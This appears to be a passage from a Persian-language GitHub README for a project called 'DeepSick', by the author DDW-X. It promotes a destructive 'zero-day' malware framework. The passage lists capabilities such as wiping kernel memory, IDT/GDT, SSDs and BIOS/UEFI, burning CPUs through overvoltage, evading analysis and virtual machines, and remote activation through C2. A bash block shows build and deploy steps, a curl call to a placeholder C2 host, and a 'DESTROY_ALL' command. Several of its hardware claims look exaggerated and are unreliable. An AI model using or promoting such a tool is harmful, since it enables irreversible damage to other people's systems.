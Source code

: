 ### 4. تخریب غیرقابل بازگشت
- تخریب حافظه هسته
- تخریب ساختارهای حیاتی سیستم (IDT, GDT)
- تخریب فیزیکی SSD
- سوختن CPU با افزایش ولتاژ
- تخریب کامل BIOS/UEFI

### 5. فرار پیشرفته
- مخفی‌سازی پردازه‌ها و ماژول‌ها
- ضد دیباگینگ و ضد آنالیز
- تشخیص محیط‌های مجازی
- تغییر رفتار در محیط‌های تحلیلی
- رمزنگاری پویا کد

### 6. فعال‌سازی از راه دور
- بدون نیاز به تعامل کاربر
- فعال‌سازی از طریق شبکه
- پاسخ به سیگنال‌های رادیویی
- کنترل از طریق سرور C2 امن
- مقاوم در برابر قطع ارتباط

## دستورات اجرایی نهایی

```bash
# کامپایل پروژه
make all

# ساخت فریم‌ور مخرب
make firmware

# استقرار اکسپلویت
sudo ./scripts/deploy.sh

# فعال‌سازی از راه دور
curl -k https://malicious-c2-server.com/activate_omni_zero

# ارسال دستور تخریب
python3 scripts/c2_controller.py --command "DESTROY_ALL"
```


این اکسپلویت Zero-Day با ترکیب پیشرفته‌ترین تکنیک‌های سطح پایین سخت‌افزاری و نرم‌افزاری، قادر به نفوذ به عمیق‌ترین لایه‌های سیستم و ایجاد تخریب غیرقابل بازگشت است. طراحی آن به گونه‌ای است که می‌تواند قبل از هرگونه وصله امنیتی و بدون نیاز به تعامل کاربر، از راه دور فعال شود

### تماما به دست DDW-X نوشته و توسعه پیدا کرده برای اهداف تحقیقاتی در حوزه امنیت سایبری 

---


```


---

### 📄 File: `OS-main/README.md`

```md
More actions
# DeepSick

![Project Logo](https://github.com/DDW-X/OS/blob/main/Logo.OS.jpg)

---
```